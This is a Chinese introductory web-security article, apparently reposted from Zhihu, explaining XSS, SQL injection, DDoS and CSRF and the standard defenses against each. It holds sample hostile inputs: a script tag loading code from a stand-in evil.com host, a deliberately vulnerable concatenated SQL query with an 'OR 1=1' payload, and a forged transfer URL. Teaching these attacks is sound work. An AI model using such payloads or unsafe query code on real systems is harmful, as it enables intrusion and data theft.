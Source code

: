 # 四种常见Web攻击

搞 Web 开发离不开安全这个话题，确保网站或者网页应用的安全性，是每个开发人员都应该了解的事。本篇主要简单介绍在 Web 领域几种常见的攻击手段。

## 1. Cross Site Script（XSS， 跨站脚本攻击)
首先插播一句，为毛叫 XSS，缩写明显是 CSS 啊？没错，为了防止与我们熟悉的 CSS（Cascading Style Sheets）混淆，所以干脆更名为 XSS。

那 XSS 是什么呢？一言蔽之，XSS 就是攻击者在 Web 页面中插入恶意脚本，当用户浏览页面时，促使脚本执行，从而达到攻击目的。XSS 的特点就是想尽一切办法在目标网站上执行第三方脚本。

![img_1.jpg](img_1.jpg)
( 图片来源：XSS Tutorial )

举个例子。原有的网站有个将数据库中的数据显示到页面的上功能，document.write("data from server")。但如果服务器没有验证数据类型，直接接受任何数据时，攻击者可以会将 ```<script src='http:bad-script.js'></scirpt>``` 当做一个数据写入数据库。当其他用户请求这个数据时，网站原有的脚本就会执行 ```document.write("<script src='http://www.evil.com/bad-script.js'></scirpt>")```，这样，便会执行 bad-script.js。如果攻击者在这段第三方的脚本中写入恶意脚本，那么普通用户便会受到攻击。

### XSS 主要有三种类型：

存储型 XSS： 注入的脚本永久的存在于目标服务器上，每当受害者向服务器请求此数据时就会重新唤醒攻击脚本；

反射型 XSS： 当用受害者被引诱点击一个恶意链接，提交一个伪造的表单，恶意代码便会和正常返回数据一起作为响应发送到受害者的浏览器，从而骗过了浏览器，使之误以为恶意脚本来自于可信的服务器，以至于让恶意脚本得以执行。

![img_2.jpg](img_2.jpg)
（ 图片来源： Cross-Site Scripting (XSS) ）

DOM 型 XSS： 有点类似于存储型 XSS，但存储型 XSS 是将恶意脚本作为数据存储在服务器中，每个调用数据的用户都会受到攻击。但 DOM 型 XSS 则是一个本地的行为，更多是本地更新 DOM 时导致了恶意脚本执行。

### 那么如何防御 XSS 攻击呢？

从客户端和服务器端双重验证所有的输入数据，这一般能阻挡大部分注入的脚本

对所有的数据进行适当的编码

设置 HTTP Header： "X-XSS-Protection: 1"

设置CSP

## 2. SQL Injection （SQL 注入）
所谓 SQL 注入，就是通过客户端的输入把 SQL 命令注入到一个应用的数据库中，从而得以执行恶意 SQL 语句。

先看个例子。

```$xslt
uname = request.POST['username']
password = request.POST['password']

sql = "SELECT all FROM users WHERE username='" + uname + "' AND password='" + password + "'"

database.execute(sql)
```
上面这段程序直接将客户端传过来的数据写入到数据库。试想一下，如果用户传入的 password 值是： "password’ OR 1=1"，那么 sql 语句便会变成：

sql = "SELECT all FROM users WHERE username='username' AND password='password' OR 1=1"
那么，这句 sql 无论 username 和 password 是什么都会执行，从而将所有用户的信息取出来。

### 那么怎么预防 sql 的问题呢？

想要提出解决方案，先看看 sql 注入得以施行的因素：

网页应用使用 SQL 来控制数据库

用户传入的数据直接被写入数据库

根据 OWASP，下面看看具体的预防措施。
- Prepared Statements (with Parameterized Queries)： 参数化的查询语句可以强制应用开发者首先定义所有的 sql 代码，之后再将每个参数传递给查询语句
- Stored Procedures： 使用语言自带的存储程序，而不是自己直接操纵数据库
- White List Input Validation： 验证用户的输入
- Escaping All User Supplied Input： 对用户提供的所有的输入都进行编码

## 3. Distributed Denial of Service （DDoS， 分布式拒绝服务）
DoS 攻击就是通过大量恶意流量占用带宽和计算资源以达到瘫痪对方网络的目的。

举个简单的例子，老郑家面馆生意红火，突然有一天一群小混混进了点，霸占了座位，只闲聊不点菜，结果坐在店里的人不吃面，想吃面的人进不来，导致老郑无法向正常客户服务。

而 DDoS 攻击就是将多个计算机联合起来一同向目标发起攻击，从而成倍地提高拒绝服务攻击的威力。

![img_3.png](img_3.png)
（图片来源于： DDoSCoin - An Incentive to Launch DDoS Attacks?）

一般 DDoS 攻击有两个目的：

敲诈勒索，逼你花钱买平安

打击竞争对手

在技术角度上，DDoS攻击可以针对网络通讯协议的各层，手段大致有：TCP类的SYN Flood、ACK Flood，UDP类的Fraggle、Trinoo，DNS Query Flood，ICMP Flood，Slowloris类、各种社工方式等等，这些技术这里不做详细解释。但是一般会根据攻击目标的情况，针对性的把技术手法混合，以达到最低的成本最难防御的目的，并且可以进行合理的节奏控制，以及隐藏保护攻击资源。

阿里巴巴的安全团队在实战中发现，DDoS 防御产品的核心是检测技术和清洗技术。检测技术就是检测网站是否正在遭受 DDoS 攻击，而清洗技术就是清洗掉异常流量。而检测技术的核心在于对业务深刻的理解，才能快速精确判断出是否真的发生了 DDoS 攻击。清洗技术对检测来讲，不同的业务场景下要求的粒度不一样。

## 4. Cross Site Request Forgery (CSRF， 跨站请求伪造)

简单来说，CSRF 就是网站 A 对用户建立信任关系后，在网站 B 上利用这种信任关系，跨站点向网站 A 发起一些伪造的用户操作请求，以达到攻击的目的。

举个例子。网站 A 是一家银行的网站，一个转账接口是 "http://www.bankA.com/transfer?toID=12345678&cash=1000"。toID 表示转账的目标账户，cash 表示转账数目。当然这个接口没法随便调用，只有在已经验证的情况下才能够被调用。

此时，攻击者建立了一个 B 网站，里面放了一段隐藏的代码，用来调用转账的接口。当受害者先成功登录了 A 网站，短时间内不需要再次验证，这个时候又访问了网站 B，B 里面隐藏的恶意代码就能够成功执行。

### 那怎么预防 CSRF 攻击呢？OWASP 推荐了两种检查方式来作为防御手段。

- 检查标准头部，确认请求是否同源： 检查 source origin 和 target origin，然后比较两个值是否匹配
- 检查 CSRF Token： 主要有四种推荐的方式
    - Synchronizer Tokens： 在表单里隐藏一个随机变化的 token，每当用户提交表单时，将这个 token 提交到后台进行验证，如果验证通过则可以继续执行操作。这种情况有效的主要原因是网站 B 拿不到网站 A 表单里的 token;
    - Double Cookie Defense： 当向服务器发出请求时，生成一个随机值，将这个随机值既放在 cookie 中，也放在请求的参数中，服务器同时验证这两个值是否匹配；
    - Encrypted Token Pattern： 对 token 进行加密
    - Custom Header： 使用自定义请求头部，这个方式依赖于同源策略。其中最适合的自定义头部便是： "X-Requested-With: XMLHttpRequest"

## 文章转发自[Web 安全入门之常见攻击](https://zhuanlan.zhihu.com/p/23309154)
